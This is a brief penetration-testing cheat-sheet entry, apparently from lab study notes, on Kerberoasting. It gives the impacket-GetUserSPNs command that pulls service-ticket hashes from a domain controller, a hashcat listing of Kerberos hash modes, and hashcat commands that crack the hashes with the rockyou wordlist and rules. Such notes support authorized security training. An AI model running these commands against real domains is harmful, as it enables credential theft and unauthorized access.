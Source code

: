 ```yaml
---
tags:
---
```

# GetUserSPNs

Queries target domain for SPNs that are running under a user account ([Kerberoasting](https://www.youtube.com/watch?v=-3MxoxdzFNI))

## Capabilities

```bash
# Get User SPNs and pull a TGS_REP hash
impacket-GetUserSPNs -request -dc-ip 192.168.50.70 -outputfile hashes.kerberoast corp.com/pete
```

Crack a `TGS_REP` hash in hashcat

```
kali@kali:~$ hashcat --help | grep -i "Kerberos"         
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

```bash
# Kali
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Host
.\hashcat.exe -m 13100 hashes\pen-200\hashes.kerberoast wordlists\rockyou.txt -r rules\best64.rule --force
```
